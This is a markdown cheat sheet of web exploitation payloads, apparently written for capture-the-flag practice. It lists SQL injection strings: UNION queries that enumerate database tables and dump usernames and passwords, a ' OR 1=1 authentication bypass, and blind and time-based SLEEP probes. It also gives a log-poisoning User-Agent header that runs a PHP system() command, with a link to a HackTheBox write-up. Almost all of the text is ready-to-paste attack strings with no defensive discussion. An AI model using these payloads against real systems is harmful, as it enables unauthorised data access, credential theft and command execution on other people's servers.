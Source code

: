 
# Web Exploitation

---------------------------------------------------------------------------
## Sql Injection
- ###  Select
```
select * from users; 
```
```
select username,password from users;
```
```
select * from users where username='admin';
```
```
select * from users where username='admin' or username='jon';
```
```
select * from users where username like 'ad%';
```
- ### Union  

```
0 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,database()
```
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
```

```

- ###  Authentication Bypass   
```
' OR 1=1;--
```
- ### Blind SQLI
```
admin123' UNION SELECT 1,2,3;-- 
```
```
admin123' UNION SELECT 1,2,3 where database() like '%';--

```
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

- ### Time Based SQLI
```
admin123' UNION SELECT SLEEP(5),2;--
```

```
admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin' and password like '4961';
```
---------------------------------------------------------------------------
## Log Poisoing

```
'User-Agent': "<?php system('ls -l /');?>" 
```
Reference :
(toxic)[https://shakuganz.com/2021/05/29/hackthebox-toxic-write-up/]
